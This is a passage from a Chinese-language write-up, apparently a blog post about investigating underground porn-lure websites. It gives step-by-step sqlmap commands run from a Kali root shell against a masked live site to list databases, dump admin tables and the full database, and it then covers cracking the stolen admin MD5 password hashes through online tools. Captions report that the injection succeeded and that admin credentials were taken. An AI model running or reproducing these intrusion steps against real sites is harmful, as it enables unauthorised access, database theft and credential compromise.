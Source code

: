 root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users \--dbms mysql root@kali:\~# sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbs \--users \--time-sec 2 \--dbms mysql \--level=2 \--risk=2 \--random-agent

 

**②根据注入得到的数据库，获取数据库里面的数据表**

sqlmap.py -u <http://txxxcom/list.php?id=1> \--tables -D \"aaaaaa\" sqlmap.py -u <http://txxxcom/list.php?id=1> \--tables -D \"aaaaaa\" \--random-agent

 

**③获取管理员数据表或者暴力脱裤**

sqlmap.py -u <http://txxxcom/list.php?id=1> \--dump -T \"xxadminxx\" -D \"aaaaaa\" sqlmap.py -u <http://txxxcom/list.php?id=1> \--dbms mysql \--dump-all -D \"aaaaaa\"

 

（注入失败）

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_031.png)

 

 

（注入成功，正在下载数据库和获取管理员账号密码）

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_032.png)

 

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_033.png)

 

（注入成功，进行管理员密码破解，这里哈希值没跑出来，需要借助在线MD5工具破解）

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_034.png)

 

 

成功的并且dump数据库下来的部分网站截图：

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_035.png)

 

 

 

**6、密码爆破与后台登录管理**

①通过以上SQL注入，拿到了这些网站的管理员用户名及密码哈希值（MD5值），需要对MD5做暴力破解，破解成功率还不确定，如果哈希值是\"加盐\"的，那么成功率将大大减低，所以也只能碰碰运气吧。

 

这里直接找几个在线的md5网站，跑一圈看看：

![](019_[冇眼睇]揭秘地下色情诱导网站，上车吧！_036.png)

